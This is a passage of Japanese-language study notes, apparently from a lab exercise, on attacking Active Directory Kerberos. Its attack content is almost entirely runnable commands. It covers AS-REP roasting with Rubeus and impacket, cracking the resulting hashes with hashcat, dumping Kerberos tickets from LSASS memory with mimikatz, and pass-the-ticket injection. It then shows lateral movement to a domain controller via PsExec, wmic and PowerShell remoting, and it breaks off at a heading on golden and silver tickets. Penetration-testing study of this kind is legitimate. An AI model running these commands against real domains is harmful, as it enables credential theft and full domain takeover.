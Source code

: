 サービスアカウント以外のユーザーのハッシュも入手できることが利点。  
唯一の条件は、ユーザーが Kerberos 事前認証を無効化していること。  
認証済みアカウントも必要ではない。

```ps
Rubeus.exe asreproast
```

`$krb5asrep$` の後に `23$` を挿入して、最初の行が `$krb5asrep$23$User.....` になるようにしてから、

```sh
hashcat -m 18200 hash.txt Pass.txt
```

impacket はユーザーリストを与える必要はあるが、リモートで実行できる。

```sh
python3 /home/kali/tools/impacket/examples/GetNPUsers.py -dc-ip 10.10.194.124 controller.local/ -usersfile users.txt
```

## Pass the ticket

Pass the ticket は、マシンの LSASS メモリから TGT をダンプして使用する。  
管理者権限でコマンドプロンプトを使用する必要がある。

```cmd
mimikatz # sekurlsa::tickets /export
```

すべての.kirbi チケットが現在のディレクトリにエクスポートされる。  
krbtgt の管理者チケットがあれば、任意のサービスに対して TGS を取得し、完全な支配が可能になる。

`[0;1fc740]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi`

```cmd
mimikatz # kerberos::ptt <ticket-file>
```

キャッシュされたチケットをリスト

```cmd
klist
```

ちなみに、「Rubeus によるチケットの収集と総当たり攻撃」で収集したチケットもファイル保存すれば同じように使える。

その後の例

```sh
PsExec.exe \\dc.domain.local cmd.exe

wmic /node:dc.domain.local process call create "cmd.exe /c whoami > C:\Users\Public\out.txt"

Enter-PSSession -ComputerName dc.domain.local

dir \\dc.domain.local\c$
```

## mimikatz によるゴールデン/シルバーチケット攻撃
